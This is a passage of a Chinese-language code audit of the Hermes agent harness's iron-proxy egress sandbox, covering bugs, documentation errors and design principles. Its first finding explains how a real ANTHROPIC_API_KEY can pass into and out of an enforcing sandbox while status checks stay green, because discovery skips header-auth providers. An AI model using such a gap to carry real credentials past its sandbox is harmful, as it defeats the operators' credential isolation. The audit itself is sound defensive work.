        # win over the generic Hermes secret blocklist. Only implicit passthrough
        # keys are filtered. Also strip Hermes-internal dynamic secrets
        # (AUXILIARY_*_API_KEY / _BASE_URL, GATEWAY_RELAY_* auth) that the
        # name-based blocklist doesn't cover — see _is_hermes_internal_secret.
        _implicit_forward = {
            k for k in passthrough_keys if not _is_hermes_internal_secret(k)
        }
```

6. 净结果:**在一个"egress 已启用、enforce 已打开"的沙箱里,真 `ANTHROPIC_API_KEY` 可以既进得去、
   又出得来,而所有告警面都是绿的**。`hermes egress status` 也不会提示——`discover_uncovered_providers`
   只报 `_NON_BEARER_PROVIDERS` 三个名字,Anthropic 不在其中。

**次生现象(同一根因)**:`mappings` 为空时,wizard 打印的"请设置以下变量之一"清单
只列 `_BEARER_PROVIDERS`,不列 header-auth 家族:

`hermes_cli/proxy_cli.py:320 @ 863e313`

```
    if not mappings:
        console.print(
            "  [yellow]No known provider API keys found in env/Bitwarden.[/yellow]"
        )
        console.print(
            "  Set at least one of these and rerun setup:"
        )
        for env_name in sorted(ip._BEARER_PROVIDERS):
            console.print(f"    - {env_name}")
        return 1
```

**修法**:`known` 改为 `set(ip._BEARER_PROVIDERS) | set(ip._HEADER_AUTH_PROVIDERS) |
{别名} | set(ip._NON_BEARER_PROVIDERS)`;第 327 行的提示清单同理。

### ■2 —— `--tunnel-port` 的上界只算了 `+1`,没算管理口的 `+2`

**现象**:`--tunnel-port` 校验允许到 65534,注释理由是"the plain-HTTP listener uses port+1";
但管理监听是 `tunnel_port + 2`(`_MGMT_PORT_OFFSET = 2`),于是 65534 会生成
`management.listen: 127.0.0.1:65536` —— 一个**不可能绑定**的端口号。

`hermes_cli/proxy_cli.py:374 @ 863e313`

```
    if args.tunnel_port is not None:
        if args.tunnel_port < 1 or args.tunnel_port > 65534:
            console.print(
                "  [red]✗ --tunnel-port must be between 1 and 65534 "
                "(the plain-HTTP listener uses port+1).[/red]"
            )
            return 1
```

**可复现判据**(不需要真二进制):

**R11C 片 C 改:命令与输出混排,而且末行那个 `OverflowError` 是**故意触发**的
(要证明 `management` 算出来的 65536 越界)—— 未捕获的异常让整块被判 `EVIDENCE-RUNFAIL`。
改法:把那次 `bind` 包进 `try/except` 打印异常本身,命令因此退出 0,
**而「越界」这个结论仍由输出内容承载**;输出配对逐字比对。
注意末行与原块有一处**逐字差异**:本容器 CPython 的消息带句点
(`port must be 0-65535.`),原块抄的没有句点。以本次实跑为准,已如实贴出。**

```verify
HERMES_DISABLE_LAZY_INSTALLS=1 PYTHONDONTWRITEBYTECODE=1 PYTHONPATH=/home/user/hermes-agent \
  /home/user/hermes-venv/bin/python -c "
from pathlib import Path
from agent.proxy_sources import iron_proxy as ip
c = ip.build_proxy_config(mappings=[], ca_cert=Path('/x/ca.crt'), ca_key=Path('/x/ca.key'),
                          tunnel_port=65534, http_listen=['127.0.0.1:65534'])
print('tunnel_listen :', c['proxy']['tunnel_listen'])
print('http_listen   :', c['proxy']['http_listen'])
print('management    :', c['management']['listen'])
import socket
try:
    socket.socket().bind(('127.0.0.1', 65536))
except OverflowError as e:
    print('bind(65536)   :', type(e).__name__ + ':', e)"
```

```text
tunnel_listen : 127.0.0.1:65534
http_listen   : 127.0.0.1:65535
management    : 127.0.0.1:65536
bind(65536)   : OverflowError: bind(): port must be 0-65535.
```

**影响面**:窄(要显式挑一个 65534/65533 附近的端口),但症状是**配置写成功、start 必失败**,
且报错来自第三方二进制,操作员很难联想到是 `--tunnel-port` 校验漏了一格。
**修法**:上界改 65533,提示语改成 "(plain-HTTP uses port+1, management uses port+2)"。

### ▲1 —— 用户文档说 setup 会自动读 `~/.hermes/.env`,但对 header-auth 家族不成立

`website/docs/user-guide/egress/iron-proxy.md:41 @ 863e313`

> `hermes egress setup` discovers provider keys from your environment. If your keys live only in `~/.hermes/.env` (not exported into your shell), setup reads that file automatically — you don't have to `export` them first.

**整段判定**:该句在 `## Quick start` 标题下,是对 Quick start 第 2 步(`hermes egress setup`)的说明,
主语是"your keys",没有任何限定。而同一文档 `## Covered auth schemes`(第 148 行)的表格
明确把 `ANTHROPIC_API_KEY` / `AZURE_OPENAI_API_KEY` / `GEMINI_API_KEY` / `GOOGLE_API_KEY`
列为**已覆盖 provider**。两处合起来给读者的承诺是"这 4 个也会被自动读到"——代码不成立(见 ■1)。
**以代码为准**:只有 `_BEARER_PROVIDERS`(8 个)+ `_NON_BEARER_PROVIDERS`(3 个)会被回填。

### ▲2 —— 开发者文档把 `proxy:` 配置块的位置指到了错误的文件

`website/docs/developer-guide/egress-internals.md:31 @ 863e313`

> hermes_cli/config.py: proxy schema    The `proxy:` block in DEFAULT_CONFIG.

**整段判定**:这一条在 `## Module layout` 的 ```text 框里,后接
"Adding a knob means: **add it here**, add a wizard prompt or `setdefault` in
proxy_cli.cmd_setup, and document it in the user-guide page." ——"add it here" 指的就是
`hermes_cli/config.py`。但 `proxy:` 块实际在 `hermes_cli/config_defaults.py:3015`;
`hermes_cli/config.py` 只是 re-import:

`hermes_cli/config.py:943 @ 863e313`

```
from hermes_cli.config_defaults import DEFAULT_CONFIG, OPTIONAL_ENV_VARS  # noqa: F401
```

**可复现判据**:`grep -n '"proxy"' hermes_cli/config.py` → **0 命中**;
`grep -n '"proxy": {' hermes_cli/config_defaults.py` → 命中 3015 行。
一个照着这份地图去加配置项的贡献者会在 `config.py` 里找不到落点。

### ▲3 —— 开发者文档的测试规模比实际大约 2.6 倍

`website/docs/developer-guide/egress-internals.md:48 @ 863e313`

> tests/test_iron_proxy.py              Hermetic tests (~70).  Binary install

同表下一条写 `tests/test_iron_proxy_cli.py ... CLI handler unit tests (~20)`。
**实际收集数**:`test_iron_proxy.py` = 24,`test_iron_proxy_cli.py` = 11,合计 **35**
(§8 的 `--collect-only` 输出;`grep -c "def test_"` 得到同样的 24 / 11,说明没有参数化放大)。
文档声称 ~90。**这不是"保守",是高估**,故记 ▲ 而非 ◎。
对读者的实际影响:会让人以为这块的回归覆盖比实际厚。

### ◎ —— 开发者文档的"七个环境变量"清单成立但不完整

`website/docs/developer-guide/egress-internals.md:286 @ 863e313`

> 4. Sets the seven env vars (HTTPS_PROXY, NO_PROXY, REQUESTS_CA_BUNDLE, SSL_CERT_FILE, CURL_CA_BUNDLE, NODE_EXTRA_CA_CERTS, HERMES_EGRESS_PROXY) and the per-mapping `HERMES_PROXY_TOKEN_<NAME>` vars.

这条在 `### Wiring iron-proxy into a non-Docker backend` 标题下,是给"要接新后端的人"的配方。
七个名字**逐个都对**(Docker 实现确实都设了),所以按项目规则"字面为真就不是 ▲",记 ◎。
但 Docker 实际还设了 `HTTP_PROXY` / `http_proxy` / `https_proxy` / `no_proxy` 的小写与 plain-HTTP 变体,
以及 `_HERMES_EGRESS_NODE_OPTIONS_APPEND` 哨兵(`tools/environments/docker.py:494-531`)。
**照这份配方接新后端,plain-HTTP 出站不会被代理**——这是"保守"在这里的具体代价。

### 另记两条正面事实(不是缺陷,是可迁移的判断)

- `hermes_cli/proxy_cli.py:441` 的"re-run setup 不得静默把 `credential_source` 从 bitwarden 降级回 env"
  是一条很好的**配置幂等性**规则:重跑一个 wizard 不应该悄悄撤销上一次的安全选择。
- `agent/proxy_sources/iron_proxy.py:1229` 记录了"`log.audit_path` 在 v0.39 不存在,
  字段被注释掉但 kwarg 保留"的处理方式——**为版本升级留接口而不留死代码**,并在
  `hermes_cli/proxy_cli.py:432` 的输出里把 `audit.log` 明确标注为 "reserved",
  避免操作员把监控挂到一个永远 0 字节的文件上。

---

## 11. 可迁移的设计原则(造自己的 harness 时怎么做)

1. **先分清"凭据隔离"和"网络围栏"。** 靠 `HTTPS_PROXY` 做的只能是前者;
   要后者必须下沉到 netns / iptables / eBPF。把两者混为一谈的文案会让运维高估防线。
   本仓库的文档在 `## Security model` 下把这条写清楚了,值得照抄这个做法。
2. **默认关闭 + 三层显式开关**,而不是"尽力而为地自动接管"。
   一个自动拉起的代理会在操作员完全不知情时改变所有出站语义。
3. **YAML 里只放"去哪读凭据"(变量名),永远不放凭据值。** 这样配置文件泄漏 ≠ 凭据泄漏。
4. **子进程 env 用白名单不用黑名单**,并且额外无条件剥掉 `*_PROXY` 系列防止递归。
   `/proc/<pid>/environ` 对同 uid 进程可读,`os.environ.copy()` 等于把整个 shell 的秘密送出去。
5. **"进程还活着"不等于"服务可用"**:启动成功的判据必须是端口真的在监听,超时就杀掉并清理 pidfile,
   否则会留下占着端口的僵尸,让下一次启动报出一个完全误导人的 "address in use"。
6. **PID 管理要防回收**:pidfile + 内存 nonce + 磁盘 nonce + `/proc/<pid>/stat` starttime 四件套;
   `"name" in cmdline` 这种松匹配会把 `tail foo.log` 认成守护进程。
7. **敏感文件从第一个字节起就是 0600**(`os.open(..., 0o600)` + `O_NOFOLLOW`),
   而不是 `copy2` 后 `chmod`;原子替换前先 chmod 临时文件。
8. **给"允许集合"和"要替换凭据的集合"画一条明确的边界**,并在设计文档里承认差集的存在。
   本仓库这两个集合会因为发现逻辑漏名字而悄悄拉开(■1),差集就是泄漏面。
9. **端口偏移一旦超过 1,所有边界校验都要跟着改**(■2)。
10. **热重载与凭据轮换要分开讲**:reload 换规则、restart 换凭据。把这条写进命令输出本身
    (本仓库就是这么做的),而不是只写进文档。

---

## 12. 移交给后续轮次的未决项

- **H-R9A-a**:锚点 `hermes_cli/proxy_cli.py:884`——`known = set(ip._BEARER_PROVIDERS) |
  set(ip._NON_BEARER_PROVIDERS)` 漏掉 `_HEADER_AUTH_PROVIDERS` 的 4 个名字,
  致使 Anthropic/Azure/Gemini 的 key 若只在 `~/.hermes/.env` 就不会被 mint 映射,
  且 Docker 侧两道碰撞检测同时失效。**本轮已取证到"净结果"这一步(§10 ■1 第 6 点),
  但没有实跑一个完整的 docker run 复现**——留给需要 Docker 环境的轮次做端到端确认。
- **H-R9A-b**:锚点 `agent/proxy_sources/iron_proxy.py:1174` 的 `"match_body": False`——
  本轮只从 Hermes 侧的注释推断了它的语义(不扫 body),**iron-proxy v0.39 的 Go 侧行为不在基线内、
  未验证**。凡涉及"`require: true` 在什么条件下判定为未替换"的结论,都带着这条未验证前提。
- **H-R9A-c**:锚点 `tools/environments/docker.py:923` 的 `resource_args.append("--network=none")`——
  这条与 egress 是**互斥**的(断网后连不上 host 的 iron-proxy),但**没有任何一处代码检查这两个开关的组合**。
  搜索面(实跑,退出码 1 = 零命中):

  ```verify
  $ cd /home/user/hermes-agent
  $ grep -nE "network" tools/environments/docker.py | grep -iE "egress|proxy"
  $ echo "exit=$?"
  exit=1
  # docker.py 里 "network" 与 "egress|proxy" 从未出现在同一行 —— 没有交叉校验。
  ```

  若 `terminal.network=false` 与 `proxy.enabled=true` 同时开,预期是容器创建成功
  (`_egress_proxy_args_for_docker` 只看 `proxy.*`,不看 network)但所有出站(含到代理的 CONNECT)全挂。
  **这个"预期"本身未实跑取证**,留给有 Docker 环境的轮次确认。
- **H-R9A-d**:`website/docs/developer-guide/egress-internals.md:294` 声称 iron-proxy 写的是
  "line-delimited JSON",并给了外链 `docs.iron.sh/audit`。**日志格式在基线里无法验证**
  (需要真跑 v0.39 二进制)。任何依赖"审计日志可被机器解析"的结论都要先补这一步。
